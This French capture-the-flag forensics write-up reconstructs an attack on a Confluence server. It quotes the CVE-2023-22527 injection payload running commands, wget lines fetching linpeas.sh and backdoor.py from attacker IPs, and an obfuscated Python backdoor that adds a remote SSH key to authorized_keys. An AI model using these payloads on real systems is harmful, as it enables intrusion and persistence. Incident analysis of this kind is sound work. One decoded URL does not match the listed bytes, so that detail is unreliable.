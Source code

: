 # Scénario 1

La Bibliothèque du Pacifique, véritable trésor culturel abritant les récits et légendes d'océanie, a récemment lancé son site internet. Cette initiative visait à partager avec le monde entier la richesse unique de cette région. Malheureusement, un événement catastrophique a frappé : le site est devenu inaccessible et toutes les données ont disparu.

Par chance, une procédure de sauvegarde avait été mise en place, conservant des fichiers clés tels que les journaux système, l'historique des modifications, et d'autres traces numériques. Ces vestiges sont désormais la seule lueur d'espoir pour résoudre ce mystère et restaurer le patrimoine culturel perdu.

Dans cette première partie nous allons vous mettre à disposition le fichier Bash History du serveur. On sait que l'attaquant a réussi à élever ses privilèges en Root. Donnez-nous le script qu'il a utilisé pour énumérer le serveur ainsi que le pays où il est stocké.

Format du flag : ``OPENNC{Pays_nomdu.script}``

**Auteur :** ``Ketsui``


## Résolution

Voici des lignes interessantes, on peut voir que l'acteur malveillant stabilise son shell avec python avant de télécharger un fichier hébergé sur l'un de ses serveurs.

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
wget http://87.250.224.21/linpeas.sh  
env
```
Il suffit alors de faire quelques recherches et on tombe sur les descriptions de ce script.

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

Pour l'ip : https://www.iplocation.net/ip-lookup

flag : ``OPENNC{Russie_linpeas.sh}``




# Scénario 2

Trouver la solution attaquée, son ip et son port.

Format du flag : ``OPENNC{solution_ip:port}``

**Auteur :** ``Ketsui``


## Solution

En analisant la premiere requete HTTP nous pouvons répondre à cette question.

![alt text](image.png)

Mais on peut également en suivant les http STREAM

![alt text](image-1.png)


Il s'agit donc de la solution Confluence : https://www.atlassian.com/fr/software/confluence

IP:PORT == 192.168.134.130:8090


flag : ``OPENNC{confluence_192.168.134.130:8090}``

# Scenario 3

Grace à vous l'équipe va pouvoir directement travailler sur la remédiation. Mais pour cela il faut connaitre quelle vulnérabilité à été exploité.

Très bien, à présent, veuillez identifier la CVE exploitée ainsi que le moment exact où elle a été utilisée pour la première fois sur le serveur.

Format TIME UTC == YYYY-MM-DD_HH:MM:SS

Format du flag : ``OPENNC{CVE-XXXX-XXXXX_YYYY-MM-DD_HH:MM:SS}``

**Auteur :** ``Ketsui``



## Résolution

On va filtré pour voir uniquement les requetes http en methode POST.

```
http.request.method == POST
```

![alt text](image-2.png)

On remarque que dans un environnement de production, la présence d'un chemin "template" est assez rare pour nous y interesser.

On regarde la requete :

![alt text](image-3.png)

Ah voila quelque chose d'interessant, on remarque tout de suite un exec d'une commande linus "ls"
```
Form item: "x" = "@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"ls"}))\r\n"
```

Regardons la réponse : 

![alt text](image-4.png)

Bingo, un retour de commande, on a une big une RCE.

Pour trouver la RCE on va faire une petite recherche google du directory path: 

```
"Confluence" "RCE" "//template/aui/text-inline.vm"
```

Bingo !

![alt text](image-5.png)

Bon récapitulons, nous avons la request et son time, la CVE et... bah c'est tous pour cette question enfaite. 

PS : Pour le TIME il faut bien mettre en UTC.

![alt text](image-6.png)


flag : ``OPENNC{CVE-2023-22527_2024-08-15_22:51:08}``



# Scénario 4

Maintenant que vous en savez un peu plus, vous allez pouvoir analyser ce que l'attaquant a fait en exploitant cette vulnérabilité. 

Après avoir effectué une énumération basique, l'attaquant a tenté de télécharger un fichier malveillant. Veuillez nous fournir le nom de ce fichier ainsi que le pays associé à l'adresse IP de l'attaquant.

Format du flag : ``OPENNC{fichier.xy_Pays}``

**Auteur :** ``Ketsui``

## Résolution

On applique la première requete en filtre : 

```
_ws.col.info == "POST //template/aui/text-inline.vm HTTP/1.1  (application/x-www-form-urlencoded)"
```
![alt text](image-7.png)

Voyons voir la derniere requete :

![alt text](image-8.png)

```
Value: @org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"wget https://182.121.42.87/backdoor.py"}))\r\n
```

On passe l'ip  dans : https://www.iplocation.net/ip-lookup

![alt text](image-9.png)


flag : ``OPENNC{backdoor.py_Chine}``




# Scénario 5

Nous avons mis la main sur le fichier en question. Cependant, nos analyses ne parviennent pas à l'interpréter ni à l'examiner correctement.

Il s'agit du dernier défi de ce parcours. Trouvez le flag.


Format du flag : ``OPENNC{qulquechose}``

**Auteur :** ``Ketsui``

## Résolution

Honétement en 2 sec si vous mettez dans Gemini ou ChatGPT vous aurez la réponse. Néonmoins un peu d'explication.


Nous avons le code suivant :


```python
import requests as __import_0__
import base64 as __import_1__

def __function_0__():
    __variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 97, 105, 47, 114, 97, 119, 47, 105, 111, 122, 108, 102, 103, 109, 48, 112, 112])
    __variable_1__ = 10
    for __variable_2__ in range(len(__variable_0__)):
        __variable_0__[__variable_2__] ^= __variable_1__
    __variable_3__ = __variable_0__.decode('ascii')
    __variable_4__ = __import_0__.get(__variable_3__)
    __variable_4__.raise_for_status()
    __variable_5__ = __variable_4__.text
    __variable_6__ = "/home/tchia/.ssh/authorized_keys"
    with open(__variable_6__, "a") as __variable_7__:
        __variable_7__.write(__variable_5__ + "\n")

if __name__ == "__main__":
    __function_0__()

```

Pas besoin de trop chercher, on va juste print la variable 0 :

```python
import requests as __import_0__
import base64 as __import_1__

__variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 97, 105, 47,>__variable_1__ = 10
print(__variable_0__)
```

Resultat : 

```bash
┌──(ketsui㉿Ketsui)-[~/Downloads/HACKAGOU]
└─$ python3 print.py
bytearray(b'https://pastebin.com/raw/5aHj19ke')
```

SUPER ! on va check ce qu'il y a derière ce lien : https://pastebin.com/raw/5aHj19ke

![alt text](image-10.png)


Format du flag : ``OPENNC{Br4v0_Vous_4vez_Termin3}``
